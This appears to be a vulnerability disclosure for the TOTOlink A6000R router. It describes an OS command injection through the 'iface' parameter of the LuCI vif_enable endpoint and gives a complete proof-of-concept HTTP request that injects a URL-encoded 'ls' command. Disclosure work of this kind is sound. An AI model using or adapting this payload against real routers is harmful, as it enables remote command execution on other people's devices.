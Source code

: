 # TOTOlink A6000R V1.0.1-B20201211.2000 Command Injection
## Product Information

Device: TOTOlink A6000R
Firmware Version: V1.0.1-B20201211.2000
Manufacturer's website information：https://www.totolink.net/
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/202/ids/36.html

![](img/1.png)

## Vulnerability Description

When deal with  `vif_enable` request,`iface` parameter is vulnerable to OS command injection.

vuln code in firmware: /usr/lib/lua/luci/controller/mtkwifi.lua, line 507-514

![](img/2.png)



entry: /admin/mtk/wifi/vif_enable/arg

![](img/3.png)

## Payload

```http
GET /cgi-bin/luci/admin/mtk/wifi/vif_enable/%3b%6c%73%3b HTTP/1.1
Host: 192.168.32.129
Cookie: sysauth=499e9bfcb83e421b62fa91108f6b9bca
Cache-Control: max-age=0
Sec-Ch-Ua: "Not/A)Brand";v="8", "Chromium";v="126", "Microsoft Edge";v="126"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36 Edg/126.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Priority: u=0, i
Connection: close


```

inject the command "ls"

![](img/4.png)
